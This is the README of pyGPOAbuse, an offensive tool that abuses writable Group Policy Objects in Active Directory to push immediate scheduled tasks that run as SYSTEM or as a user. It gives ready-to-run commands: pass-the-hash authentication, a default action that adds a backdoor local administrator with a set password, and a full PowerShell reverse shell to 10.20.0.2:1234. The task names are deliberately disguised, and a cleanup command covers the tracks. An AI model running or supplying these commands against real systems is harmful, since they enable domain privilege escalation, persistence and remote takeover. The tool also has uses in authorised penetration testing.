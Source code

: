 # pyGPOAbuse

## Description

Python **partial** implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by[@pkb1s](https://twitter.com/pkb1s)

This tool can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer for computer GPO, or as logged in user for user GPO.

Default behavior adds a local administrator.

![Example](https://github.com/Hackndo/pygpoabuse/raw/master/assets/demo.gif)

## How to use

### Basic usage

Add **john** user to local administrators group (Password: **H4x00r123..**)

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
``` 

### Advanced usage

Reverse shell example

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
``` 

### Cleanup
Delete the scheduled task after it executed.

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" --cleanup
```


## Credits

* [@pkb1s](https://twitter.com/pkb1s) for [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
* [@airman604](https://twitter.com/airman604) for [schtask_now.py](https://github.com/airman604/schtask_now)
* [@SkelSec](https://twitter.com/skelsec) for [msldap](https://github.com/skelsec/msldap)

